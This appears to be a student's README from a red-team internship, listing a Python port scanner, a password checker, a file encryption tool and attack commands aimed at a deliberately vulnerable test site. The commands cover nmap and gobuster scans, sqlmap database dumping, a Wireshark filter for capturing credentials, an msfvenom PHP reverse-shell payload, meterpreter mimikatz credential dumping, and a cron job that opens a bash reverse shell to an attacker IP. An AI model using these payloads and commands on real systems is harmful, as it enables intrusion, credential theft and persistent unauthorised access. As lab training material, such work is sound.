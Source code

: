 # Hack Secure Internship: Red Team Tasks  
**Student Name:** Daniel Muthama  
**University:** Maseno University  
**GitHub Repository:** [Link](https://github.com/danielmuthama23/Red-Team_Hack-Secure-Internship-Project.git)  

---

## Overview  
This repository contains scripts, commands, and methodologies used during the Hack Secure Red Team internship. Below are the codes and tools implemented for the tasks.  

---

## Tools and Scripts  

### 1. Python Port Scanner  

#### Scans open ports on a target IP address.  
    import socket
    from concurrent.futures import ThreadPoolExecutor

    def scan_port(ip, port):
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(1)
                s.connect((ip, port))
                print(f"[+] Port {port} is open")
                return port
        except:
            return None

    def port_scanner(ip, start_port, end_port):
        open_ports = []
        with ThreadPoolExecutor(max_workers=100) as executor:
            futures = [executor.submit(scan_port, ip, port) for port in range(start_port, end_port+1)]
            for future in futures:
                result = future.result()
                if result:
                    open_ports.append(result)
        return open_ports

    # Example usage:

    ip = "testphp.vulnweb.com"
    start_port = 1
    end_port = 100
    open_ports = port_scanner(ip, start_port, end_port)
    print(f"Open ports: {open_ports}")

### 2. Password Strength Checker

Evaluates password strength using regex and zxcvbn.

    import re
    import zxcvbn

    def password_strength(password):
        result = zxcvbn.zxcvbn(password)
        score = result['score']
        feedback = result['feedback']['warning'] if result['feedback']['warning'] else "No feedback"
        
        strength = {
            0: "Very Weak",
            1: "Weak",
            2: "Moderate",
            3: "Strong",
            4: "Very Strong"
        }
        return f"Strength: {strength[score]}. Feedback: {feedback}"

    # Usage:
    password = input("Enter password: ")
    print(password_strength(password))

### 3. File Encryption/Decryption Tool

Encrypts/decrypts files using Fernet (AES).

    from cryptography.fernet import Fernet
    import os

    def generate_key():
        return Fernet.generate_key()

    def save_key(key, filename="secret.key"):
        with open(filename, "wb") as key_file:
            key_file.write(key)

    def load_key(filename="secret.key"):
        return open(filename, "rb").read()

    def encrypt_file(key, input_file, output_file):
        cipher = Fernet(key)
        with open(input_file, "rb") as f:
            data = f.read()
        encrypted_data = cipher.encrypt(data)
        with open(output_file, "wb") as f:
            f.write(encrypted_data)

    def decrypt_file(key, input_file, output_file):
        cipher = Fernet(key)
        with open(input_file, "rb") as f:
            encrypted_data = f.read()
        decrypted_data = cipher.decrypt(encrypted_data)
        with open(output_file, "wb") as f:
            f.write(decrypted_data)

# Usage:
key = generate_key()
save_key(key)
encrypt_file(key, "plain.txt", "encrypted.txt")
decrypt_file(key, "encrypted.txt", "decrypted.txt")

**Command-Line Tools:**
1. Nmap Port Scanning

    nmap -sV -p- -T4 -oN nmap_scan.txt testphp.vulnweb.com

2. Gobuster Directory Bruteforcing

    gobuster dir -u http://testphp.vulnweb.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html -o gobuster_scan.txt

3. SQL Injection with sqlmap

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs --batch

4. Wireshark Filter for Credential Capture

    http.request.method == "POST"

**Red Team Tasks**
1. Metasploit Reverse Shell Payload

    msfvenom -p php/reverse_php LHOST=<YOUR_IP> LPORT=4444 -o shell.php

2. Meterpreter Post-Exploitation

    # After gaining shell:
    meterpreter > load mimikatz
    meterpreter > wdigest
3. Persistence via Cron Job

    echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'" | crontab -

Usage Examples
**Port Scanner:**

    port_scanner("testphp.vulnweb.com", 1, 100)

**File Encryption:**

    encrypt_file(key, "report.docx", "encrypted_report.docx")

**SQLi Automation:**

    sqlmap -u "http://testphp.vulnweb.com/login.php" --forms --dump

**Prerequisites**

    Python 3.x

**Libraries:**

    pip install cryptography zxcvbn


**Tools:**

Nmap, Gobuster, Wireshark, sqlmap, Metasploit.